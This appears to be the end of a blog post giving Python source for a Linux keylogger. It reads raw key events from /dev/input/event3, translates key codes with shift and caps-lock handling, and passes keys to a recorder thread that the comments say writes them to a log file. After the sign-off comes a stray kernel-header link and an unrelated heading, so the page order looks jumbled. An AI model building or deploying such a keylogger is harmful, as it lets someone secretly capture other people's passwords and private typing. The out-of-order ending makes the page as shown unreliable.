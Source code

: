 ```python
                key = SHIFTED[event_code]

            # if just caps lock only allow capital letters & NOT special symbols
            elif caps_lock and not shift:
                if 16 <= event_code <= 25 or 30 <= event_code <= 38 or 44 <= event_code <= 50:
                    key = SHIFTED[event_code]
                else:
                    key = KEYMAP[event_code]

            # if both allow special symbols & lowercase letters
            elif shift and caps_lock:
                if 16 <= event_code <= 25 \
                        or 30 <= event_code <= 38 or 44 <= event_code <= 50:
                    key = KEYMAP[event_code]
                else:
                    key = SHIFTED[event_code]

            # pass the parsed data to the writer
            q2.put(key)


def producer():
    """Opens the /dev/input/event for the keyboard and reads the binary stream in event sized chunks
    and puts those into the first queue for the parser"""
    fp = open('/dev/input/event3', "rb")
    while True:
        event = fp.read(EVENT_SIZE)
        if not event:
            break
        q.put(event)
    fp.close()


try:
    t1 = Thread(target=producer)  # Producer gets keyboard events
    t1.start()
    t2 = Thread(target=consumer)  # Consumer parses keys from keyboard events
    t2.start()
    t3 = Thread(target=recorder)  # Recorder writes keys to the log file and handles backspaces
    t3.start()
except KeyboardInterrupt:
    t1.join()
    t2.join()
    t3.join()
    print('exiting')
    sys.exit()
```

Explanations are in the comments! That's it for this post.

-0x00Wolf

**or at Linus Torvald's Linux Kernel repo:** https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/uapi/linux/input-event-codes.h

## Viewing Input Event Struct Event Codes & Values

